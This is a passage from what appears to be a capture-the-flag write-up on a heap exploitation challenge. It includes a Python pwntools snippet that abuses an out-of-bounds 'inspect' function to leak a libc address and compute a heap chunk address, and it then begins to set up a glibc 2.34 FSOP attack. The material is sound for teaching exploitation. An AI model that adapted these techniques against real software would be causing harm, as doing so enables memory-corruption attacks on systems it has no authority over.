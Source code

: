 Since the offset from libc stays the same, we can use the inspect functionality before we enter any values, in order to leak a libc address.

After calculating the libc base address, we can then calculate the address of our chunk as a result.

This is what we have so far for the exploit code:

```python
# Create
r.sendlineafter(b'>> ', b'1')
r.sendlineafter(b'): ', str(0x1000000//8).encode())

if REMOTE: off = 0x1003ff0  # docker offset (chunk to libc base when mmaped)
else: off = 0x1000ff0       # local offset
leak_target = off + libc.sym._IO_2_1_stdout_ + 0x8

# Inspect - libc leak
r.sendlineafter(b'>> ', b'5')
r.sendlineafter(b'inspect: ', str(leak_target//8).encode())
r.recvuntil(b'): ')
libc.address = double2val(float(r.recvline())) - 0x2197e3

chunk_addr = libc.address - off
print(f'heap chunk @ {hex(chunk_addr)}')
```

**NOTE: to get the correct chunk-to-libc offset for the remote instance, it is important to debug with gdb inside the docker container. The offset you calculate on your system may differ**

We leveraged the malloc call as well as the bug in `inspect()` to their full extent, and we can now take advantage of the `insert()` and `edit()` functions. Since this is `Glibc 2.34`, we need to perform a little `FSOP` magic.

`_IO_list_all` is an internal global linked list that keeps track of all the `FILE` structures that are currently open.

As you can see below, the first entry of the linked list is `_IO_2_1_stderr_`:
